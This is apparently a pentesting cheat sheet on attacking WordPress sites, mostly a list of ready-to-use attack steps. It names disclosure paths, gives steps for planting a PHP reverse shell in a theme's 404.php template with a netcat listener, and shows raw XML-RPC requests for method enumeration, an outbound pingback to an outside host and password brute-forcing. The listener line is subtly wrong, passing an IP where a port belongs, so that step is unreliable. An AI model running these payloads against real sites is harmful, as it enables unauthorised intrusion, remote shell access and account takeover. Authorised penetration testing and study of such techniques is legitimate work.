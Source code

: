 ```yaml
---
title: WordPress Pentesting
desc: Penetration testing on WordPress.
tags: [CMS, Web, WordPress]
alts: [Wpscan]
website:
render_with_liquid: false
---
```


## Common Directories

```html
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/wp-admin/
/wp-admin/upload.php

<!-- Private/Draft Posts (WordPress <= 5.2.3)  -->
/?static=1
```

<br />

## Reverse Shell Injection (login required)

```
1. Access to dashboard (/wp-admin/).
2. Move to "Appearance" and select theme named "Twenty Seventeen".
3. Click "Theme Editor" or "Editor" in the "Appearance" section.
4. In the theme editor, click "404 Template (404.php)" on the right.
5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
6. Edit "IP" and "Port" in the code.
7. In your terminal, run 'nc -lvnp <IP>'.
8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
```

<br />

## XML-RPC (xmlrpc.php)

### 1. Get all methods

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

### 2. Ping back

Use [PostBin](https://www.toptal.com/developers/postbin/).

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
<param><value><string>http://vulnerable.com</string></value></param>
</params>
</methodCall>
```

### 3. Brute force users

It is recommended to use Burp Intruder.

```xml
POST /xmlrpc.php HTTP/1.1
Host: vulnerable.com
...

<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>username</value></param> 
<param><value>$password$</value></param> 
</params> 
</methodCall>
```
